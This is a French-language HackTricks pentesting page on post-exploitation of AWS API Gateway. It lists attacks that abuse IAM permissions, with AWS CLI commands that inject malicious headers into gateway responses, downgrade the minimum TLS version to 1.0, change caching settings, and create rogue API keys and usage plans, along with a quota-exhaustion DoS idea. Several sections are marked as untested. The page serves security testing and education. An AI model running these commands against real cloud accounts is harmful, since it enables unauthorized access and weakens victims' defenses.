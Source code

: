 # AWS - Exploitation Post-API Gateway

<details>

<summary><strong>Soutenez HackTricks et bénéficiez d'avantages !</strong></summary>

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou si vous souhaitez accéder à la **dernière version de PEASS ou télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop) !
* Obtenez le [**swag officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**The PEASS Family**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

</details>

## API Gateway

Pour plus d'informations, consultez :

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Accéder à des API non exposées

Vous pouvez créer un point de terminaison dans [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) avec le service com.amazonaws.us-east-1.execute-api, exposer le point de terminaison dans un réseau où vous avez accès (potentiellement via une machine EC2) et attribuer un groupe de sécurité permettant toutes les connexions.\
Ensuite, depuis la machine EC2, vous pourrez accéder au point de terminaison et donc appeler l'API de passerelle qui n'était pas exposée auparavant.

### Plans d'utilisation DoS

Dans la section **Énumération**, vous pouvez voir comment **obtenir le plan d'utilisation** des clés. Si vous avez la clé et qu'elle est **limitée** à X utilisations **par mois**, vous pourriez **l'utiliser simplement et causer un DoS**.

La **clé API** doit simplement être **incluse** dans un **en-tête HTTP** appelé **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

Un attaquant disposant des autorisations `apigateway:UpdateGatewayResponse` et `apigateway:CreateDeployment` peut **modifier une réponse de passerelle existante pour inclure des en-têtes personnalisés ou des modèles de réponse qui divulguent des informations sensibles ou exécutent des scripts malveillants**.

{% code overflow="wrap" %}
```bash
API_ID="votre-id-api"
RESPONSE_TYPE="DEFAULT_4XX"

# Mettre à jour la réponse de la passerelle
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Créer un déploiement pour l'API Gateway REST API mise à jour
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Divulgation d'informations sensibles, exécution de scripts malveillants ou accès non autorisé aux ressources de l'API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

Un attaquant disposant des autorisations `apigateway:UpdateStage` et `apigateway:CreateDeployment` peut **modifier une étape de passerelle API existante pour rediriger le trafic vers une étape différente ou modifier les paramètres de mise en cache pour accéder de manière non autorisée aux données mises en cache**.

{% code overflow="wrap" %}
```bash
API_ID="votre-id-api"
STAGE_NAME="Prod"

# Mettre à jour l'étape de l'API Gateway
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Créer un déploiement pour l'API Gateway REST API mise à jour
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**Impact potentiel** : Accès non autorisé aux données mises en cache, perturbation ou interception du trafic de l'API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

Un attaquant disposant des autorisations `apigateway:PutMethodResponse` et `apigateway:CreateDeployment` peut **modifier la réponse de méthode d'une méthode API REST de passerelle existante pour inclure des en-têtes personnalisés ou des modèles de réponse qui divulguent des informations sensibles ou exécutent des scripts malveillants**.

```bash
API_ID="votre-id-api"
RESOURCE_ID="votre-id-ressource"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Mettre à jour la réponse de la méthode
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Créer un déploiement pour l'API Gateway REST API mise à jour
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Impact potentiel** : Divulgation d'informations sensibles, exécution de scripts malveillants ou accès non autorisé aux ressources de l'API.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

Un attaquant disposant des autorisations `apigateway:UpdateRestApi` et `apigateway:CreateDeployment` peut **modifier les paramètres de l'API Gateway REST API pour désactiver la journalisation ou modifier la version minimale de TLS, affaiblissant potentiellement la sécurité de l'API**.

```bash
API_ID="votre-id-api"

# Mettre à jour les paramètres de l'API REST
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Créer un déploiement pour l'API Gateway REST API mise à jour
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```

**Impact potentiel** : Affaiblissement de la sécurité de l'API, permettant potentiellement un accès non autorisé ou exposant des informations sensibles.

{% hint style="info" %}
Besoin de tests
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

Un attaquant disposant des autorisations `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan` et `apigateway:CreateUsagePlanKey` peut **créer de nouvelles clés API, les associer à des plans d'utilisation, puis utiliser ces clés pour accéder de manière non autorisée aux API**.

```bash
# Créer une nouvelle clé API
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Créer un nouveau plan d'utilisation
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associer la clé API au plan d'utilisation
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```

**Impact potentiel** : Accès non autorisé aux ressources de l'API, contournement des contrôles de sécurité